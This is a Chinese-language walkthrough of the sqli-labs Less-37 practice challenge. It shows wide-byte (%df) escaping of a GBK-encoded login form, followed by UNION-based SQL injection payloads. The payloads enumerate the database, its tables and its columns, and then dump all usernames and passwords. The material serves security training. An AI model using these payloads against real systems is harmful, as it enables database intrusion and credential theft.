






# Less - 37

---

# 通关教程

---

## 1、判断闭合方式

---

```http
uname=admin'&passwd=admin&submit=Submit
```

​​

```http
uname=admin&passwd=admin'&submit=Submit
```

​​

用户名和密码的位置单引号都被转义，直接查看源代码查看是否为GBK编码

​​

确实使用了GBK编码，在单引号前面加入%df让单引号成功逃逸

---

## 2、查看当前库

---

```http
uname=a%df' union select 1,database()#&passwd=admin&submit=Submit
```

​​

---

## 3、查看security库下的所有表

---

```http
uname=a%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#&passwd=admin&submit=Submit
```

​​

---

## 4、查看users表下的所有字段

---

```http
uname=a%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)#&passwd=admin&submit=Submit
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
uname=a%df' union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​​

‍
